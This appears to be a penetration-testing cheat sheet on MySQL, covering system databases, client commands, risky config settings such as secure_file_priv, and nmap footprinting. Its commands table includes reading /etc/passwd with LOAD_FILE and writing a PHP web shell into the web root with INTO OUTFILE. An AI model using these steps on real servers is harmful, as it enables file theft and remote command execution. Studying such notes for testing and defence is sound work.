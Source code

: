 # MySQL

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**MySQL**</mark> is an open-source SQL <mark style="color:purple;">**relational database**</mark> management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. Default MySQL port is <mark style="color:yellow;">**3306**</mark>. The most important databases fot the MySQL are the <mark style="color:green;">**`system schema (sys)`**</mark> and <mark style="color:green;">**`information schema (information_schema)`**</mark>. The **system schema** contaions tables, information, and metadata necessary for management. The **information schema** contains metadata which mainly retrieved from the system **schema database**.

## <mark style="color:yellow;">Databases</mark>

**MySQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                                   | Description                                                           |
| ---------------------------------------------------------- | --------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql`**</mark>              | Contains tables with required info for the server                     |
| <mark style="color:green;">**`information_schema`**</mark> | Database metadata                                                     |
| <mark style="color:green;">**`performance_schema`**</mark> | Low level monitoring MySQL Server execution                           |
| <mark style="color:green;">**`sys`**</mark>                | Objects that helps devs to use data from performance\_schema database |

## <mark style="color:yellow;">MySQL Useful Commands</mark>

| Command                                                                                                                                                        | Description                                                                                           |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql -u <user> -p<password> -h <IP address>`**</mark>                                                                           | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| <mark style="color:green;">**`show databases;`**</mark>                                                                                                        | Show all databases                                                                                    |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                        | Select one of the existing databases                                                                  |
| <mark style="color:green;">**`show tables;`**</mark>                                                                                                           | Show all available tables in the selected database                                                    |
| <mark style="color:green;">**`show columns from <table>;`**</mark>                                                                                             | Show all columns in the selected database                                                             |
| <mark style="color:green;">**`select * from <table>;`**</mark>                                                                                                 | Show everything in the desired table                                                                  |
| <mark style="color:green;">**`select * from <table> where <column> = "<string>";`**</mark>                                                                     | Search for needed `string` in the desired table                                                       |
| <mark style="color:green;">**`select LOAD_FILE("/etc/passwd");`**</mark>                                                                                       | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                             |
| <pre class="language-bash"><code class="lang-bash">SELECT "&#x3C;?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
</code></pre> | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Writing local files                             |

## <mark style="color:yellow;">CMD Interacting</mark>

#### Linux

```bash
mysql -u carni17 -psuperkek123 -h 13.13.13.13
```

#### Windows

```bash
mysql.exe -u carni17 -psuperkek123 -h 13.13.13.13
```

## <mark style="color:yellow;">Dangerous Settings</mark>

#### **Config File Location**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

* <mark style="color:green;">**`user`**</mark> - Sets which user the MySQL service will run as
* <mark style="color:green;">**`password`**</mark> - Sets the password for the MySQL user
* <mark style="color:green;">**`admin_address`**</mark> - The IP address on which to listen for TCP/IP connections on the administrative network interface
* <mark style="color:green;">**`debug`**</mark> - This variable indicates the current debugging settings
* <mark style="color:green;">**`sql_warnings`**</mark> - This variable controls whether single-row INSERT statements produce an information string if warnings occur
* <mark style="color:green;">**`secure_file_priv`**</mark> - This variable is used to limit the effect of data import and export operations. If empty - variable have no effect. If NULL - server disables import/export. If directory - import/export is limited to directory.

#### Show variable

```sql
show variables like "secure_file_priv";
```

## <mark style="color:yellow;">Tips2Hack</mark>

1. Nmap Basic Footprinting

```bash
sudo nmap 13.13.13.13 -sV -sC -p3306 --script mysql*
```

***
